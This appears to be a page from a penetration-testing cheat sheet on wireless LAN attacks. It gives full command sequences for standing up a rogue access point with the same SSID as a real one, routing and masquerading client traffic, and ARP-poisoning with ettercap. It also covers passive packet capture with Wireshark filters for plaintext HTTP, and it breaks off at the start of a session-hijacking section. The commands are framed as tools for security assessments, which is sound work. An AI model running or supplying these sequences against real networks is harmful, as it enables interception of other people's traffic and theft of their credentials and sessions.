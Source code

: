 
# Advanced Wlan Techniques
**Category:** ADVANCED WLAN TECHNIQUES
### Man-in-the-Middle attack

Description:
This attack sets up a rogue access point with the same SSID as a legitimate one,
tricking clients into connecting. Once connected, the attacker can intercept, modify,
or redirect traffic. Use during security assessments to evaluate a network's resistance
to rogue APs and traffic interception risks. It demonstrates the risks of trusting
unsecured or spoofed access points and the importance of certificate pinning, VPNs,
and user awareness.

```bash
airmon-ng start wlan0                                                # Enable monitor mode on the wlan0 interface
airbase-ng -e RogueAP -c [channel] mon0                              # Create a fake AP named "RogueAP" on the specified channel
ifconfig at0 up                                                      # Bring up the virtual interface created by airbase-ng
dhcpd at0                                                            # Start DHCP server to assign IPs to clients connecting to at0
ifconfig at0 192.168.1.1 netmask 255.255.255.0                       # Set a static IP on the fake interface
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1      # Route traffic through the fake gateway
echo 1 > /proc/sys/net/ipv4/ip_forward                               # Enable IP forwarding to relay traffic
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE                 # Masquerade traffic from at0 to external network via eth0
ettercap -T -q -i at0 -M arp:remote // //                            # Launch ARP poisoning to intercept and sniff network traffic
```

### Wireless Eavesdropping
This passive attack involves capturing wireless packets in the air for later analysis.
Use during recon or to analyze open or poorly encrypted networks without disrupting them.
It reveals sensitive data or credentials transmitted in plaintext, misconfigured encryption, 
and device behavior.

```bash
airmon-ng start wlan0         # Enable monitor mode on the wireless card
airodump-ng mon0              # View available wireless networks and clients
wireshark &                   # Launch Wireshark for real-time packet capture and analysis

# Then apply display filters like:
# http                     - To view unencrypted web traffic
# tcp.port==80             - To isolate standard HTTP port traffic
# wlan.fc.type_subtype==0x08 - To view Beacon frames


```
### Session Hijacking over Wireless
This attack captures session tokens, cookies, or credentials from unencrypted network traffic to hijack user sessions.
When users connect to insecure networks (e.g., public Wi-Fi), to demonstrate risks of non-HTTPS services.
To stress the importance of HTTPS, secure cookie flags, and encrypted transport layers.
